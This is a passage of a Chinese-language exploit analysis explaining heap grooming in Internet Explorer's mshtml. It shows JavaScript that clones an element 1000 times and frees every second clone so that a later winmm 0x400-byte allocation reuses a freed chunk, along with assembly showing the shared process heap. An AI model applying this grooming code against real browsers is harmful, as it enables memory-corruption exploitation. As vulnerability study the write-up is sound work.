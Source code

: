 注意样本中的selob,其有64个属性,这个是故意为之的,因为64*0x10 = 0x400

下面的代码实际上就是先分配了1000个0x400的内存,然后又释放其中一半的内存

```js
while (i < 1000) {
			clones[i] = selob.cloneNode(true)
			i = i + 1;
		}

		var j = 0;
		while (j < 1000) {
			delete clones[j];
			CollectGarbage();
			j  = j + 2;
		}

```

注意 delete clone[j]这句.这句会调用到CImplAry::DeleteAll

![1545633788185](Delete.png)



先说下这样做的目的, 先申请1000个0x400的内存,接着释放掉一半,这样的目的是为了让后面winmm申请0x400的内存的时候,其申请的地址刚好是我们释放掉的内存中的其中一个地址(我们释放了500个,会是其中的一个),这个1000应该是实验后发现比较能稳定利用才选的结果,后面就会看到,这样做的一个前提还有这两个dll用到的内存堆是同一个堆,就是默认的进程堆

```asm
 # mshtml
 g_hProcessHeap = GetProcessHeap();
```

```asm
# winmm
hHeap = *(HANDLE *)(*(_DWORD *)(__readfsdword(24) + 48) + 24)
hHeap = NtCurrentTeb()->ProcessEnvironmentBlock->ProcessHeap;
```

```c
#define GetProcessHeap() (NtCurrentPeb()->ProcessHeap)
```
